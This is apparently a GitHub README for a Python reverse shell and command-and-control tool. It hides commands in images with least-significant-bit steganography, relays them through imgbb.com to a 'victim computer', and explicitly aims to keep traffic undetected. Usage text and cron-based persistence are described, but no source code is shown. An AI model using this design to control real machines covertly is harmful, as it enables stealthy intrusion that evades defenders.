

# Stegosaurus

A python reverse shell and command and control program that sends the command payloads hidden in images using steganography techniques to keep network traffic undetected. Least significant bit steganography is used, so the last two bits of the color of each pixel are changed slightly to be either a 0 or 1 and store data. The last two bits are the least significant, so changing them does not make enough difference in color to be noticeable to the human eye, and because the bits are modified and not added, the file size is not increased. See the image below for an example of changing the least significant bit.



## The Command and Control Program: control.py
Make an imgbb.com account and get an API key from API.imgbb.com to upload a payload, or use the offline option -o to only create a local payload file. 

```
Usage: control.py [OPTIONS] CARRIER [PAYLOAD]...

  Reverse shell control program that sends command and control payloads hidden
  in images using steganography techniques to keep network traffic undetected.

  Arguments:
      CARRIER: Image file to carry the payload
      PAYLOAD: Command to be run by reverse shell on victim computer

Options:
  -n, --name TEXT  Name of payload image file.  [default: secret]
  -o, --offline    Create payload file, but don't upload it anywhere. For
                   local use or use with a USB drive.
  --help           Show this message and exit.
```

Example usage:
```
Offline mode:
control.py "C:\Stegosaurus\img.PNG" ls -o
Success! Saved: C:\Stegosaurus\secret.PNG

Online mode:
control.py "C:\Stegosaurus\img.PNG" ls
Please input your imgbb.com API key, or run the code with the --offline option to only save the payload file locally: my_api_key
Success!
```

## The Reverse Shell: shell.py
Run the program with a CRON job and a script to check if there is a new image from your profile and this will continually run the newest command, or just run it once and run the command hidden in the newest posted image in your profile. 

```
Usage: shell.py [OPTIONS] USER

  Reverse shell control program that receives command and control payloads
  hidden in images using steganography techniques to keep network traffic
  undetected.

  Arguments:
      USER: The imgbb profile, found in the url https://<USER>.imgbb.com, that is connected to the control script.

Options:
  -n, --name TEXT  Name of payload image file.  [default: secret]
  -o, --offline    Don't connect to imgbb and instead use a local file path to
                   the payload file as the USER argument. For local use or use
                   with a USB drive.
  --help           Show this message and exit.
```

Example usage:
```
Offline mode:
shell.py -o "C:\Stegosaurus\secret.PNG"
C:\
(If given ls command in control.py to create payload for secret.png)

Online mode:
shell.py user_profile
Successfully downloaded payload image:  C:\Stegosaurus\secret.PNG
C:\
(If given ls command in control.py to create payload for secret.png)
```